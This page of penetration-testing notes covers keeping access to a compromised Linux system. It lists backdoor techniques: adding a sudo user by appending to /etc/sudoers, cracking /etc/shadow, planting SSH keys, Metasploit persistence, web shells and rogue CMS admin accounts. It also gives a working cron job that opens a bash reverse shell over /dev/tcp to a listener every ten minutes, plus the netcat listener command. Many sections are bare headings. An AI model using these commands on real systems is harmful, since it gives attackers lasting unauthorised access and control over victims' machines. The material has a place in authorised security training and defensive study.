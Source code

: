 # Persistence - Rootkit - Backdoor

So if you manage to compromise a system the system might die for whatever reason. If you have used an exploit that messes with the machine the user might want to reboot, and if the user reboots you will lose your shell.

Or, maybe the way to compromise the machine is really complicated or noisy and you don't want to go through the hassle of doing it all again. So instead you just create a backdoor that you can enter fast and easy.

Read this
https://gist.github.com/dergachev/7916152

## Create a new user

The most obvious, but not so subtle way is to just create a new user (if you are root, or someone with that privilege) 

```
adduser pelle
adduser pelle sudo
```

Now if the machine has ssh you will be able to ssh into the machine.

On some machines, older linux I think, you have to do

```
useradd pelle
passwd pelle
echo "pelle    ALL=(ALL) ALL" >> /etc/sudoers
```

## Crack the password of existing user

Get the `/etc/shadow` file and crack the passwords.


## SSH key

Add key to exisitng ssh-account.


## Cronjob NC

Create cronjob that connects to my machine every 10 minutes. Here is an example using a bash-reverse-shell. You also need to set up a netcat listener.

```
crontab -e
*/10 * * * * 0<&196;exec 196<>/dev/tcp/192.168.1.102/5556; sh <&196 >&196 2>&196
```

```
nc -lvp 5556
```

### References:
http://kaoticcreations.blogspot.cl/2012/07/backdooring-unix-system-via-cron.html


## Binary trojan
Create a binary with malicious content inside. Run that, get meterpreter shell, run metasploit persistence.

https://www.offensive-security.com/metasploit-unleashed/binary-linux-trojan/

If you have a meterpreter shell you can easily just run persistence.

## Backdoor in webserver

You can put a cmd or shell-backdoor in a webserver.

Put backdoor on webserver, either in separate file or in hidden in another file

## Admin account to CMS

Add admin account to CMS.


## Mysql-backdoor

Mysql backdoor

## Hide backdoor in bootblock


## Nmap
https://gist.github.com/dergachev/7916152